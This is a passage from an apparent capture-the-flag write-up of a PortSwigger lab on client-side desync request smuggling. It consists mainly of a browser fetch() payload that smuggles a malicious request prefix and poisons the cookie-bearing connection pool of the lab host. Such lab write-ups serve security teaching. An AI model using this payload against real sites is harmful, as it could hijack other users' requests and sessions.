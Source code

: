 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-21/images/Pasted%20image%2020230226164848.png)

- Switch to the **Console** tab and use `fetch()` to replicate the desync probe you tested in Burp:

**Browser testing payload:**
```js
fetch('https://0a4c002e03e58448c00fdcfe00e90072.h1-web-security-academy.net/%2e%2e%2f', {
    method: 'POST',
    body: 'GET /404pls HTTP/1.1\r\nX-Foo: x', // malicious prefix
    mode: 'cors', // ensures the connection ID is visible on the Network tab
    credentials: 'include' // poisons the "with-cookies" connection pool
}).catch(() => {
        fetch('https://0a4c002e03e58448c00fdcfe00e90072.h1-web-security-academy.net', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```
